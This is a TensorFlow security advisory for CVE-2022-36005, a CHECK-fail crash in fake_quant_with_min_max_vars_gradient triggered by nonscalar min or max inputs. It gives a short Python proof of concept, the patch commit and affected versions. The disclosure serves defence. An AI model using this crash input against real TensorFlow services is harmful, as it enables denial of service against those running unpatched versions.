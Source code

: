 ## TFSA-2022-131: `CHECK` fail in `FakeQuantWithMinMaxVarsGradient`

### CVE Number
CVE-2022-36005

### Impact
When `tf.quantization.fake_quant_with_min_max_vars_gradient` receives input `min` or `max` that is nonscalar, it gives a `CHECK` fail that can trigger a denial of service attack.
```python
import tensorflow as tf
import numpy as np 
arg_0=tf.constant(value=np.random.random(size=(2, 2)), shape=(2, 2), dtype=tf.float32)
arg_1=tf.constant(value=np.random.random(size=(2, 2)), shape=(2, 2), dtype=tf.float32)
arg_2=tf.constant(value=np.random.random(size=(2, 2)), shape=(2, 2), dtype=tf.float32)
arg_3=tf.constant(value=np.random.random(size=(2, 2)), shape=(2, 2), dtype=tf.float32)
arg_4=8
arg_5=False
arg_6=''
tf.quantization.fake_quant_with_min_max_vars_gradient(gradients=arg_0, inputs=arg_1,
min=arg_2, max=arg_3, num_bits=arg_4, narrow_range=arg_5, name=arg_6)
```

### Patches
We have patched the issue in GitHub commit [f3cf67ac5705f4f04721d15e485e192bb319feed](https://github.com/tensorflow/tensorflow/commit/f3cf67ac5705f4f04721d15e485e192bb319feed).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by
 - 刘力源, Information System & Security and Countermeasures Experiments Center, Beijing Institute of Technology
 - Neophytos Christou, Secure Systems Labs, Brown University
